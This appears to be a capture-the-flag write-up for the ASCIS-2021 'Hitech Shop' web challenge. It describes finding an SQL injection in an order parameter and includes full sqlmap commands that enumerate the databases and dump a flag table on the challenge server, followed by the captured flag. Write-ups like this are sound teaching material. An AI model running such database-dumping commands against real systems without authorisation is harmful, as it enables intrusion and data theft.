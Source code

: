 # ASCIS-2021 Warm-up - 100pts
* Category: Web 
* Name: Hitech Shop
* Level: None
* Description: None

## Solution
* Overview the challenge provided us a search box i think it `sql injection`
![Main function](./challenge.PNG) 
*  i try `double quote` and this is server response 
![Main function](./sqli.PNG)
* After that i save `request` from `BurpSuite` and scan it with sqlmap
![Main function](./request.PNG)
* Run this command in sqlmap `sqlmap -u http://125.235.240.166:20105/index?order=price --time-sec=200 --user-agent=* --dbs --level 5 `i found two databases, but i only attention `vannd` 
![Main function](./sqlmap0.PNG)
* Then i use command `sqlmap -u http://125.235.240.166:20105/index?order=price --tables -D vannd` for scan `vand` table 
* Finally i found a table contain flag =))))
![Main function](./sqlmap1.PNG)
* Later i scan `flag` table use this command `sqlmap -u http://125.235.240.166:20105/index?order=price --columns -D vannd -T flag --dump`
![Main function](./sqlmap2.PNG)
* FLAG `ASCIS{SQL_1nJecTi0n_Ba5e_0N_OrdeR_bY}`
